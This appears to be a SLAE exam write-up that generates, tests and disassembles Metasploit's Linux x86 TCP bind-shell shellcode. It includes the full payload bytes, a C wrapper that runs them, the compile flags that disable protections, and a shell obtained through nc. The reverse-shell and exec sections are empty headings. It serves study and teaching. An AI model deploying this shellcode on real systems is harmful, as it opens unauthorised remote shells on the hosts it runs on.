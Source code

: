 ### Shellcode No.1 - TCP Bind Shell ###

At first glance, we'll take payload linux/x86/shell_bind_tcp, very similar to the shellcode we wrote in the first SLAE exam task.

------------------------------------------------------------------------------------------------------------------------
We generate shellcode using the msfvenom script, belonging to the Metasploit-framework, giving as arguments the payload we choose, LPORT, i.e. the port on which our bind_shell is to listen, as well as the language in which our shellcode will be used, in this case - C.
```bash
$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
Next, we place the generated shellcode in the so-called C language wrapper, which will allow us to easily test its effectiveness. We create a shellcode.c file with the following content:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
Then, we compile the program using GCC software, along with the appropriate parameters.
```bash
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
------------------------------------------------------------------------------------------------------------------------
We run the program.
```bash
$ ./shellcode 
Shellcode Length:  20
```
------------------------------------------------------------------------------------------------------------------------
What we see in the answer is the length of the shellcode, which seems incorrect at first glance. This is because the shellcode generated by msfvenom does not by default prohibit the use of so-called null-byte ('\ x00), which in our case is a terminator of a string, which we can confirm by searching for the string "00" (the first line containing 15 characters will be omitted, please add the characters of the next line, 15 + 5 = 20 characters)
```bash
$ cat shellcode.c | grep 00
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
```
------------------------------------------------------------------------------------------------------------------------
Then, opening another terminal and executing the netstat -antp command, we notice that shellcode actually works and we can connect to the port of our choice, obtaining a shell.
```bash
$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      24304/shellcode 
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        1      0 172.16.237.201:32845    91.189.92.92:80         CLOSE_WAIT  2552/ubuntu-geoip-p
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               

$ nc localhost 1234
whoami
slae
```
------------------------------------------------------------------------------------------------------------------------
For our analyzes, we will use ndisasm software. To do this, call our shellcode with the echo command and then use the pipe character to pass the output to the ndisasm software.
```bash
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
```nasm
00000000  31DB              xor ebx,ebx			; clearing the EBX register
00000002  F7E3              mul ebx 			; clearing the EAX and EDX registers
00000004  53                push ebx 			; pushing 0 on the stack as a first argument of socketcall syscall (IPPROTO_IP = 0 (null))
00000005  43                inc ebx 			; incrementing EBX by one for sys_socket call
00000006  53                push ebx 			; pushing second argument on the stack (SOCK_STREAM = 1)
00000007  6A02              push byte +0x2 		; pushing value 2 on the stack (third argument of socketcall syscall - AF_INET = 2 (PF_INET))
00000009  89E1              mov ecx,esp			; directing the stack pointer to sys_socket() function arguments
0000000B  B066              mov al,0x66 		; call to socketcall syscall 
0000000D  CD80              int 0x80			; syscall execution (after this, sockfd will be saved in EAX as return value)
0000000F  5B                pop ebx 			; popping value 2 into the ebx (sys_bind call)
00000010  5E                pop esi
00000011  52                push edx 			; pushing 0 (null) which is necessary for that call
00000012  68020004D2        push dword 0xd2040002	; pushing d204 -> in reverse 04d2(hex) = 1234(dec) - our LPORT, and 0002(hex) = 2(dec) which is the third argument (it is like `push word 2` - AF_INET = 2)
00000017  6A10              push byte +0x10 		; pushing value 16, which is the socklen_t addrlen (size) = 16
00000019  51                push ecx 			; const struct sockaddr *addr - stack pointer with struct arguments	
0000001A  50                push eax 			; pushing our sockfd pointer
0000001B  89E1              mov ecx,esp 		; directing the stack pointer to sys_bind() function arguments
0000001D  6A66              push byte +0x66 		; pushing call to socketcall syscall on top of the stack
0000001F  58                pop eax 			; popping above value into EAX
00000020  CD80              int 0x80 			; syscall execution
00000022  894104            mov [ecx+0x4],eax 		; ECX points to the stack, so ECX+4 will points too -> pushing EAX on the stack
00000025  B304              mov bl,0x4 			; moving 4 to EBX (sys_listen call)
00000027  B066              mov al,0x66 		; call to socketcall syscall 
00000029  CD80              int 0x80 			; syscall execution
0000002B  43                inc ebx 			; incrementing EBX (sys_accept call)
0000002C  B066              mov al,0x66 		; call to socketcall syscall
0000002E  CD80              int 0x80 			; syscall execution (ECX already points to top of the stack (arguments))
00000030  93                xchg eax,ebx 		; 
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
```bash
$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 102
#define __NR_socketcall 102
```
```bash
$ cat /usr/include/linux/net.h | grep sys_socket
#define SYS_SOCKET	1		/* sys_socket(2)		*/
```

# Shellcode No.2 - TCP Reverse Shell







# Shellcode No.3 - Exec Command
